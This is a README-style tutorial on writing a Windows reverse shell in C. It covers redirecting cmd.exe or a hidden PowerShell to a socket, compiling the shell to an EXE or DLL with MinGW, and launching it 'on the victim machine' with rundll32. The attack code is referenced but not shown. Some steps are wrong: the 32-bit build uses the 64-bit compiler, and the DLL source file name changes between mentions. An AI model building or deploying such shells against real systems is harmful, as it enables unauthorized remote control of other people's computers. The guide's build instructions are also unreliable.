 # Reverse Shell C Code Tutorial for Windows

This guide demonstrates how to create a reverse shell in C on Windows using Winsock2, compile it, and optionally wrap it into a DLL that can be executed remotely.

## **Code Walkthrough**

The attached c code `reverse.c` creates a reverse shell that connects to a specified IP and port and then runs a command shell (`cmd.exe`) remotely over the network.

### **Code Explanation**
### **Key Components**

1. **Socket Initialization**
   - The code starts by initializing Winsock using `WSAStartup()`.
   
2. **Server Setup**
   - The `sockaddr_in` structure is configured to set up the connection parameters such as IP address and port.
   
3. **Establish Connection**
   - The `connect()` function establishes a connection to the target IP and port.

4. **Redirect Input/Output**
   - The `STARTUPINFO` structure is used to redirect standard input, output, and error streams to the socket.
   
5. **Process Creation**
   - `CreateProcessA()` is used to spawn the `cmd.exe` shell on the victim machine, which will interact with the attacker via the socket.

### **Alternative for PowerShell Reverse Shell**

You can replace `"cmd"` with `"powershell"` to launch PowerShell as a reverse shell instead of `cmd.exe`:

```c
CreateProcessA(NULL, "powershell", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);
```

---

## **Compile the C File to .exe**

You can compile the C file to a Windows executable using MinGW.

### **For 32-bit Windows Target:**

```bash
x86_64-w64-mingw32-gcc -o output.exe source.c -lws2_32
```

### **For 64-bit Windows Target:**

```bash
x86_64-w64-mingw32-gcc -o output.exe source.c -lws2_32
```

The `-lws2_32` flag links the **Winsock2** library, which is required for network-related APIs.

---

## **Compile the C File to .dll**

You can also compile the code into a DLL to be executed with `rundll32`.
Use the c code called `reverse_to_dll.c` 
To compile the code into a DLL, use:

```bash
x86_64-w64-mingw32-gcc -o reverse.dll reversedll.c -lws2_32 -shared
```

---

## **Export Function from DLL**

You can inspect the exported functions of the DLL using the `pefile` Python module.

### **Using `pefile` to List DLL Exports:**

```bash
python -m pefile exports reverse.dll
```

This will output a list of exported functions from the DLL, like:

```bash
0x3a8c11541 b'Function_name' 1
```

---

## **Test the DLL File Manually**

To test the DLL manually from the victim machine, use the following command:

```bash
rundll32 reverse.dll,Function_name
```

This will invoke the function `Function_name()` inside the `reverse.dll` and execute the reverse shell.

---

## **Conclusion**

This guide demonstrated how to create a reverse shell in C, compile it into a Windows executable or DLL, and run it remotely. The core of this process involves setting up a socket connection and redirecting input/output to that socket. You can adapt this method to other tasks, such as creating a remote command execution tool or experimenting with PowerShell.

---

### **Important Note**

This code should be used in a legal and ethical context only, such as in penetration testing environments where you have permission to test security vulnerabilities.
